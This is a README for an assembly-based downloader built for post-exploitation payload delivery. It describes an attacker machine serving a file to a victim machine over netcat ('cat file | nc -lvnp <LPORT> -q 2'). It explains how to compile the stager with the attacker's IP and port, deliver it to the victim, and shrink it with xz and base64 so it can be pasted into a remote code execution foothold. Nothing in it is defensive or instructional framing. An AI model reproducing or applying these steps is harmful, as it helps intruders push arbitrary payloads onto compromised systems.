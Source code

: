 # Simple minimalistic file downloader
## Prerequisites
Can be installed with your package manager (probably).
```
make nasm
```

## Usage
On attacker machine, you need to compile the downloader. You can specify parameters in the makefile, or using environment variables.
The parameters are:
- `LHOST`: attacker IP
- `LPORT`: attacker port
- `RMODE`: (currently broken, TBD)
- `RFILE`: path, where the transferred file will be written on target machine

After filling in the parameters follow the procedure:
1. Fill in the values into `downloader.asm.tpl` and compile the downloader:
```shell
make
```
2. By some means, deliver the downloader to the victim machine (if `xz(1)` is present on the victim machine, see **Compression**)
3. Start hosting the file you want delivered on your attacker machine using:
```shell
cat file | nc -lvnp <LPORT> -q 2
```
4. Launch the downloader on the victim machine
5. The netcat will close the connection 2 seconds after the file is transmitted

## Compression
The compiled downloader is rather small alone(abt. `8KB`), but when compressed with `xz(1)`, it will occupy about `500B` of space.
When encoded in `base64`, this will be about `800B`


In order to transfer, decompress and launch the downloader: **Before running this command, make sure that you are hosting the payload using `nc(1)`**
```shell
make xz-compress
```
This will print out the command you need to paste into the RCE of your choice to download the hosted file

